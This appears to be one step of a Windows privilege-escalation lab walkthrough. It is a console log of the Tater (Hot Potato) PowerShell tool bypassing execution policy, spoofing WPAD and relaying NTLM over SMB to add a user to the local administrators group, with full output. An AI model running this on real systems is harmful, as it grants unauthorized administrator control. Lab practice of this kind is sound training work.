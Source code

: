 ## #11.0 - Click 'Completed' once you have successfully elevated the machine

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
The command completed successfully.


C:\Users\user>powershell -nop -ep bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
PS C:\Users\user> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
2020-05-19T09:50:36 - Tater (Hot Potato Privilege Escalation) started
Local IP Address = 10.10.228.167
Spoofing Hostname = WPAD
Windows Defender Trigger Enabled
Real Time Console Output Enabled
Run Stop-Tater to stop Tater early
Use Get-Command -Noun Tater* to show available functions
Press any key to stop real time console output

2020-05-19T09:50:37 - Waiting for incoming HTTP connection
2020-05-19T09:50:37 - Flushing DNS resolver cache
2020-05-19T09:50:38 - Starting NBNS spoofer to resolve WPAD to 127.0.0.1
2020-05-19T09:50:41 - WPAD has been spoofed to 127.0.0.1
2020-05-19T09:50:41 - Running Windows Defender signature update
2020-05-19T09:50:42 - HTTP request for /wpad.dat received from 127.0.0.1
2020-05-19T09:50:46 - Attempting to redirect to http://localhost:80/gethashes and trigger relay
2020-05-19T09:50:46 - HTTP request for http://download.windowsupdate.com/v9/windowsupdate/redir/muv4wuredir.cab?2005191350 received from 127.0.0.1
2020-05-19T09:50:50 - HTTP request for /GETHASHES received from 127.0.0.1
2020-05-19T09:50:51 - HTTP to SMB relay triggered by 127.0.0.1
2020-05-19T09:50:51 - Grabbing challenge for relay from 127.0.0.1
2020-05-19T09:50:51 - Received challenge 936B9897B7F74351 for relay from 127.0.0.1
2020-05-19T09:50:51 - Providing challenge 936B9897B7F74351 for relay to 127.0.0.1
2020-05-19T09:50:52 - Sending response for \ for relay to 127.0.0.1
2020-05-19T09:50:52 - HTTP to SMB relay authentication successful for \ on 127.0.0.1
2020-05-19T09:50:52 - SMB relay service RJDOYDSQOGWKBSCGCHEE created on 127.0.0.1
2020-05-19T09:50:52 - Command likely executed on 127.0.0.1
2020-05-19T09:50:52 - SMB relay service RJDOYDSQOGWKBSCGCHEE deleted on 127.0.0.1
2020-05-19T09:50:53 - Stopping HTTP listener
2020-05-19T09:50:56 - Tater was successful and has exited
PS C:\Users\user> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
~~~
